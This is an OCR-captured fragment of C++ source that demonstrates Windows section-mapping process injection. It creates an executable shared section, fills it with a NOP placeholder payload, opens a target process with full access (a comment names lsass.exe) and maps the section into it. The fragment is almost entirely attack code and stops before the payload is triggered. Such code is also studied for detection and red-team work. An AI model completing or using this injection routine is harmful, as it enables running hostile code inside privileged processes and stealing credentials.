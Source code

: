 ```cpp
        NULL,
        &maxSize,
        PAGE_EXECUTE_READWRITE,
        SEC_COMMIT | SEC_NO_CHANGE,
        NULL
    );

    if (status != 0) {
        printf("NtCreateSection failed with status: 0x%X\n", status);
        FreeLibrary(hNtdll);
        return 1;
    }

    // Map the section into the current process's address space
    PVOID baseAddress = NULL;
    SIZE_T viewSize = 0;
    status = NtMapViewOfSection(
        hSection,
        GetCurrentProcess(),
        &baseAddress,
        0,
        0,
        NULL,
        &viewSize,
        ViewUnmap,
        0,
        PAGE_EXECUTE_READWRITE
    );

    if (status != 0) {
        printf("NtMapViewOfSection (self) failed with status: 0x%X\n", status);
        CloseHandle(hSection);
        FreeLibrary(hNtdll);
        return 1;
    }

    // Write a simple payload or message into the shared section
    memset(baseAddress, 0x90, viewSize);

    // Now map this section into the target process (e.g., lsass.exe)
    DWORD targetPid = 4;
    HANDLE hTargetProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPid);
    if (!hTargetProcess) {
        printf("Failed to open target process\n");
        NtUnmapViewOfSection(GetCurrentProcess(), baseAddress);
        CloseHandle(hSection);
        FreeLibrary(hNtdll);
        return 1;
    }

    PVOID remoteBaseAddress = NULL;
    status = NtMapViewOfSection(
        hSection,
        hTargetProcess,
        &remoteBaseAddress,
        0,
        0,
        NULL,
        &viewSize,
        ViewUnmap,
        0,
        PAGE_EXECUTE_READWRITE
    );
```
